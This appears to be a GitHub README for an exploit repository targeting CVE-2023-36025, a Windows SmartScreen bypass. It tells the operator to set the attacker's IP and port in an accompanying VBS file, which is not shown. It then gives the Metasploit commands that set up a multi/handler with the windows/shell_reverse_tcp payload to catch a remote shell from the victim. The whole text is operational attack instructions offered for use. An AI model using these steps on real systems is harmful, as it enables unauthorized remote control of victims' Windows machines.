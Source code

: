 # [EXPLOIT] CVE-2023-36025 - Description
Windows SmartScreen Security Feature Bypass Vulnerability

# Usage
- NOTE handler waiting for tcp request for target
- P.S configure CVE-2023-36025.vbs file to change the ip and port to machine ip and port that is being used for the TCP handler 
- configure reverse TCP handler
  msfconsole 
  use exploit/multi/handler 
  set payload windows/shell_reverse_tcp
  set LHOST <MACHINE IP>
  set LPORT <MACHINE PORT>
  run

